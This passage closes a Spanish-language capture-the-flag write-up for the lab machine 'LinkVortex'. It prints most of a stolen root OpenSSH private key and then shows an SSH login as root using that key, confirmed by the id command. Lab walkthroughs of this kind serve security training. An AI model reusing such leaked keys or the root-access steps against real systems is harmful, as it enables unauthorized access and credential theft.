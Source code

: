 ```shell
6rniGe8h1bMOY9HnqpRfDrx0/NcG0uaMyQYLY8cklq0ZJCgHGNdbZE5Z+jSgrLEcz9a/ZG
5oB7MApRKxyy/wmgW/9OIOuQNMREgLeR9cLkl4JoqWU/DKueJWeGTTID4ud482W2hxhwAh
sS4KwSubuJhd7y30httOopQIFNbFBE3ZFc/MGLkG9kuArdAE9eKG5o3u6KktHAalRGPP5u
qJWGn/1PHcBP8PW3qLB+k+2qxFMJ4QAAAAMBAAEAAAGABtJHSkyy0pTqO+Td19JcDAxG1b
O22o01ojNZW8Nml3ehLDm+APIfN9oJp7EpVRWitY51QmRYLH3TieeMc0Uu88o795WpTZts
ZLEtfav856PkXKcBIySdU6DrVskbTr4qJKI29qfSTF5lA82SigUnaP+fd7D3g5aGaLn69b
qcjKAXgo+Vh1/dkDHqPkY4An8kgHtJRLkP7wZ5CjuFscPCYyJCnD92cRE9iA9jJWW5+/Wc
f36cvFHyWTNqmjsim4BGCeti9sUEY0Vh9M+wrWHvRhe7nlN5OYXysvJVRK4if0kwH1c6AB
VRdoXs4Iz6xMzJwqSWze+NchBlkUigBZdfcQMkIOxzj4N+mWEHru5GKYRDwL/sSxQy0tJ4
MXXgHw/58xyOE82E8n/SctmyVnHOdxAWldJeycATNJLnd0h3LnNM24vR4GvQVQ4b8EAJjj
rF3BlPov1MoK2/X3qdlwiKxFKYB4tFtugqcuXz54bkKLtLAMf9CszzVBxQqDvqLU9NAAAA
wG5DcRVnEPzKTCXAA6lNcQbIqBNyGlT0Wx0eaZ/i6oariiIm3630t2+dzohFCwh2eXS8nZ
VACuS94oITmJfcOnzXnWXiO+cuokbyb2Wmp1VcYKaBJd6S7pM1YhvQGo1JVKWe7d4g88MF
Mbf5tJRjIBdWS19frqYZDhoYUljq5ZhRaF5F/sa6cDmmMDwPMMxN7cfhRLbJ3xEIL7Kxm+
TWYfUfzJ/WhkOGkXa3q46Fhn7Z1q/qMlC7nBlJM9Iz24HAxAAAAMEAw8yotRf9ZT7intLC
+20m3kb27t8TQT5a/B7UW7UlcT61HdmGO7nKGJuydhobj7gbOvBJ6u6PlJyjxRt/bT601G
QMYCJ4zSjvxSyFaG1a0KolKuxa/9+OKNSvulSyIY/N5//uxZcOrI5hV20IiH580MqL+oU6
lM0jKFMrPoCN830kW4XimLNuRP2nar+BXKuTq9MlfwnmSe/grD9V3Qmg3qh7rieWj9uIad
1G+1d3wPKKT0ztZTPauIZyWzWpOwKVAAAAwQDKF/xbVD+t+vVEUOQiAphz6g1dnArKqf5M
SPhA2PhxB3iAqyHedSHQxp6MAlO8hbLpRHbUFyu+9qlPVrj36DmLHr2H9yHa7PZ34yRfoy
+UylRlepPz7Rw+vhGeQKuQJfkFwR/yaS7Cgy2UyM025EEtEeU3z5irLA2xlocPFijw4gUc
xmo6eXMvU90HVbakUoRspYWISr51uVEvIDuNcZUJlseINXimZkrkD40QTMrYJc9slj9wkA
ICLgLxRR4sAx0AAAAPcm9vdEBsaW5rdm9ydGV4AQIDBA==
-----END OPENSSH PRIVATE KEY-----
bob@linkvortex:~$
```

Procedí a conectarme a través de SSH y obtuve los máximos privilegios en la máquina.
```shell
rabb1t@hold:~$ ssh root@10.10.11.47 -i id_rsa
Welcome to Ubuntu 22.04.5 LTS (GNU/Linux 6.5.0-27-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

Last login: Mon Dec  2 11:20:43 2024 from 10.10.14.61
root@linkvortex:~# id
uid=0(root) gid=0(root) groups=0(root)
root@linkvortex:~#
```

¡Happy Hacking!